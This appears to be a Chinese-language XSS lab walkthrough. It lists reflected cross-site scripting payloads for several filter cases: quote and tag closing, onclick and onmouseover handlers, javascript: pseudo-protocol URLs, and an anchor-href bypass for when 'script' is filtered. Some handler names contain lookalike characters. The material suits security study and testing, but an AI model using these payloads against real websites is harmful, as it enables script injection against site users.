 payload

```js
<script>alert(/xss/)</script>
```



## 标签闭合

payload

```js
"><script>alert(/xss/)</script>  // 双引号闭合value的双引号，> 闭合input标签
```



## <>实体编码

对`<>`进行了过滤

payload

1）构造标签事件

```js
'οnclick='alert(/xss/)  // 第一个引号闭合value，第二个引号原有后面的引号
```

2）构造事件onmouseover，javascript:伪协议

```js
'οnmοuseοver='javascript:alert(/xss/)
```





## <>替换为空

1）构造onclick事件

payload

```js
"οnclick="alert(/xss/)
```

2）构造事件onmouseover，javascript:伪协议

```js
'οnmοuseοver='javascript:alert(/xss/)
```





## script过滤

对script进行了过滤，利用没有过滤尖括号，构造a标签再尝试利用a标签的href属性执行javascript:伪协议，`"><a href='javascript:alert(1)'>`,没有对javascript进行过滤，触发xss
